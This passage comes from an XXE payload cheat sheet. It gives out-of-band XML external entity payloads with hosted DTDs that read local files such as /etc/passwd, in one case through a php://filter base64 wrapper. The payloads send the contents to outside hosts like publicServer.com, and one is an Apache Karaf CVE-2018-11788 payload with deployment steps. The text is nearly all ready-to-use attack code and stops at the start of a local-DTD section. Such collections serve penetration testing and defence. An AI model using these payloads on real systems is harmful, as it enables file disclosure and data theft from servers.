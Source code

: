 ```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://publicServer.com/parameterEntity_oob.dtd">
<data>&send;</data>

File stored on http://publicServer.com/parameterEntity_oob.dtd
<!ENTITY % file SYSTEM "file:///sys/power/image_size">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://publicServer.com/?%file;'>">
%all;
```

#### **XXE OOB with DTD and PHP filter** ####

```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://127.0.0.1/dtd.xml">
%sp;
%param1;
]>
<r>&exfil;</r>

File stored on http://127.0.0.1/dtd.xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://127.0.0.1/dtd.xml?%data;'>">
```

#### **XXE OOB with Apache Karaf** ####

CVE-2018-11788 affecting versions:

* Apache Karaf <= 4.2.1
* Apache Karaf <= 4.1.6

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://27av6zyg33g8q8xu338uvhnsc.canarytokens.com"> %dtd;]
<features name="my-features" xmlns="http://karaf.apache.org/xmlns/features/v1.3.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://karaf.apache.org/xmlns/features/v1.3.0 http://karaf.apache.org/xmlns/features/v1.3.0">
    <feature name="deployer" version="2.0" install="auto">
    </feature>
</features>
```

Send the XML file to the `deploy` folder.

Ref. [brianwrf/CVE-2018-11788](https://github.com/brianwrf/CVE-2018-11788)

### **XXE with local DTD** ###

In some case, outgoing connections are not possible from the web application. DNS names might even not resolve externally with a payload like this:

